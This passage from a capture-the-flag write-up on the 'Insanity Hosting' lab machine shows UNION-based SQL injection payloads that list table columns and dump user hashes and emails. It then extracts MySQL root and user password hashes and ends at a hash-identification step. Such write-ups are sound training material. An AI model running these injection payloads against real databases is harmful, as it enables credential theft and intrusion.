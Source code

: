 ![mail7](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail7.png)

We have table names: _hosts_, _log_, and _users_

_Step 2_ | Get the column names for the _users_ table

The payload _" UNION SELECT null,group_concat(column_name),null,null from information_schema.columns where table_schema = database() and table_name = 'users' -- - _

We have the columns: _id_, _username_, _password_, and _email_

![mail8](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail8.png)

_Step 3_ | Extract the records from the _users_ table.

The payload _" UNION SELECT null,group_concat(username,password,email),null,null from users -- - _

![mail9](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail9.png)

We get the following hashes back:

```bash
admin$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cmaadmin@insanityhosting.vm

nicholas$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qenicholas@insanityhosting.vm

otis$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFWotis@insanityhosting.vm
```

Unable to get any to crack

# Exploitation

---

## SQLi to Extract MySQL Users Table Records

While we could not get the hashes to crack from the _users_ table we will attempt to get the password hash from the _mysql.user_ table.

The payload " UNION SELECT null,group_concat(user,password,authentication_string),null,null from mysql.user -- -

![mail10](../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail10.png)

We get the following hashes:

```bash
root*CDA244FF510B063DA17DFF84FF39BA0849F7920F
elliot*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```

Name That Hash thinks it is SHA-1

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ nth --file hash.txt

  _   _                           _____ _           _          _   _           _
 | \ | |                         |_   _| |         | |        | | | |         | |
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash


```